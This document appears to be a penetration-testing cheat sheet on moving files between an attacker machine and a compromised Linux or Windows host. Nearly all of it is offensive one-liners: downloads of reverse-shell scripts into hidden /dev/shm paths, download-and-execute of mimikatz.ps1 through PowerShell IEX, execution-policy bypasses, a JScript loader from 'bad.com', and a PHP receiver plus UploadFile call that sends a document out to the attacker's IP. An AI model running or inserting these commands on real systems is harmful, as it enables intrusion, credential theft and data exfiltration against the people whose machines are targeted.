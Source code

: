 # ⭕ HTTP

#### Linux

```
wget 10.10.14.14:8000/tcp_pty_backconnect.py -O /dev/shm/.rev.py
wget 10.10.14.14:8000/tcp_pty_backconnect.py -P /dev/shm
curl 10.10.14.14:8000/shell.py -o /dev/shm/shell.py
fetch 10.10.14.14:8000/shell.py #FreeBSD
```

#### Windows

```
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64
bitsadmin /transfer transfName /priority high http://example.com/examplefile.pdf C:\downloads\examplefile.pdf

#PS
(New-Object Net.WebClient).DownloadFile("http://10.10.14.2:80/taskkill.exe","C:\Windows\Temp\taskkill.exe")
Invoke-WebRequest "http://10.10.14.2:80/taskkill.exe" -OutFile "taskkill.exe"
wget "http://10.10.14.2/nc.bat.exe" -OutFile "C:\ProgramData\unifivideo\taskkill.exe"

Import-Module BitsTransfer
Start-BitsTransfer -Source $url -Destination $output
#OR
Start-BitsTransfer -Source $url -Destination $output -Asynchronous
```

## <mark style="color:red;">Linux HTTP Server</mark>

```
python -m SimpleHTTPServer 80
python3 -m http.server 80
php -S 0.0.0.0:8000
ruby -run -e httpd . -p 9000
nc -kl 8000 --sh-exec "echo -e 'HTTP/1.1 200 OK\r\n'; date"
```

## <mark style="color:red;">Python HTTPS Server</mark>

```python
# from https://gist.github.com/dergachev/7028596
# taken from http://www.piware.de/2011/01/creating-an-https-server-in-python/
# generate server.xml with the following command:
#    openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
# run as follows:
#    python simple-https-server.py
# then in your browser, visit:
#    https://localhost:443

import BaseHTTPServer, SimpleHTTPServer
import ssl

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 443), SimpleHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```

## <mark style="color:red;">HTTP/FTP wget from linux</mark>

```
wget http://ip-addr[:port]/file[-o output-file]
```

#### A lesser known usage of wget is its ability to download FTP files as well. To do that, simply prepend a ftp:// before the URL. If the FTP server needs credentials, specify them with --ftp-user=username and --ftp-password=pass.

## <mark style="color:red;">Download with Visual basic</mark>

```
Set args = Wscript.Arguments Url = "http://domain/file" dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP") dim bStrm: Set bStrm = createobject("Adodb.Stream") xHttp.Open "GET", Url, False xHttp.Send with bStrm     .type = 1 '     .open     .write xHttp.responseBody     .savetofile " C:%homepath%file", 2 ' end with

# run with:
cscript wget.vba
```

## <mark style="color:red;">Jscript Download</mark>

```
echo GetObject("script:https://bad.com/code.js") > code.js && wscript.exe code.js


# jscript source:

<?xml version="1.0"?>
<package>
<component id="PopCalc">
<script language="JScript">
    <![CDATA[
    var r = new ActiveXObject("WScript.Shell").Run("calc"); 
    ]]>
</script>
</component>
</package>

```

## <mark style="color:red;">HTTP powershell Download</mark>

#### oneliner command:

```
powershell -c (New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file', 'output-file')
```

#### powershell script:

```
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

#### to run the script:

```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

#### download and execute a PowerShell script without saving it to disk ( only for powershell scripts)

```
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
```

or

```
(new-object System.Net.Webclient).DownloadString('http://192.168.50.34:8080/mimikatz.ps1') | IEX
```

## <mark style="color:red;">http VBscript from windows</mark>

#### run these commands in order to create a vbscrtipt for downloading a file

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs 
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs 
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs 
echo Err.Clear >> wget.vbs 
echo Set http = Nothing >> wget.vbs 
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs 
echo http.Open "GET", strURL, False >> wget.vbs 
echo http.Send >> wget.vbs 
echo varByteArray = http.ResponseBody >> wget.vbs 
echo Set http = Nothing >> wget.vbs 
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs 
echo strData = "" >> wget.vbs 
echo strBuffer = "" >> wget.vbs 
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs 
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs 
echo Next >> wget.vbs 
echo ts.Close >> wget.vbs
```

#### To run our wget.vbs script

```
cscript wget.vbs http://ip-addr:port/file output-file
```

## <mark style="color:red;">Windows Uploads Using Windows Scripting Languages</mark>

#### since standard TFTP, FTP, and HTTP servers are rarely enabled on Windows by default if outbound HTTP traffic is allowed, we can use the System.Net.WebClient PowerShell class to upload data to our Kali machine through an HTTP POST request create the following PHP script and save it as upload.php in our Kali webroot directory, /var/www/html:will process an incoming file upload request and save the transferred data to the /var/www/uploads/ directory.

```
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

```
sudo mkdir /var/www/uploads
sudo chown www-data: /var/www/uploads
```

#### in windows:

```
C:\Users> powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
```

## <mark style="color:red;">Upload Files</mark>

#### python script

[https://gist.github.com/UniIsland/3346170](https://gist.github.com/UniIsland/3346170)
